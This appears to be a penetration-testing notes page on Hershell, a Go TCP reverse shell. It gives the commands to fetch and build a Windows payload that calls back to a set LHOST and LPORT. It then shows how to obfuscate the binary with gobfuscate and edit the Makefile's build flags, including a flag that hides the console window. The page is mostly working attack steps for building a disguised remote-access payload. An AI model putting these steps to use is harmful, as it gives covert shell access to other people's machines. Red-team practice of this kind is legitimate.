 # Hershell

[Hershell](https://github.com/lesnuages/hershell) is a simple TCP reverse shell written in Go.

## Installing Hershell

```text
go get github.com/lesnuages/hershell
cd $GOPATH/src/github.com/lesnuages/hershell/
make depends
make windows64 LHOST=192.168.0.12 LPORT=1234
```

## Obfuscating  Hershell

[gobfuscate](https://github.com/unixpickle/gobfuscate) obfuscate Go binaries and packages.

```text
go get github.com/unixpickle/gobfuscate
gobfuscate -outdir github.com/lesnuages/hershell ./out
```

{% hint style="warning" %}
You will have to set the `GOOS` and `GOARCH` before running **gobfuscate** since it's using the default build profile otherwise it will takes only the Linux source files.
{% endhint %}

The Makefile also needs to be copied and edited:

```text
LINUX_LDFLAGS=--ldflags "-X main.kephknbjcmclaiojcnoa=${LHOST}:${LPORT} -X main.eghlidmkekfibfjihlkg=$$(openssl x509 -fingerprint -sha256 -noout -in ${SRV_PEM} | cut -d '=' -f2)"
WIN_LDFLAGS=--ldflags "-X main.kephknbjcmclaiojcnoa=${LHOST}:${LPORT} -X main.eghlidmkekfibfjihlkg=$$(openssl x509 -fingerprint -sha256 -noout -in ${SRV_PEM} | cut -d '=' -f2) -H=windowsgui"
```

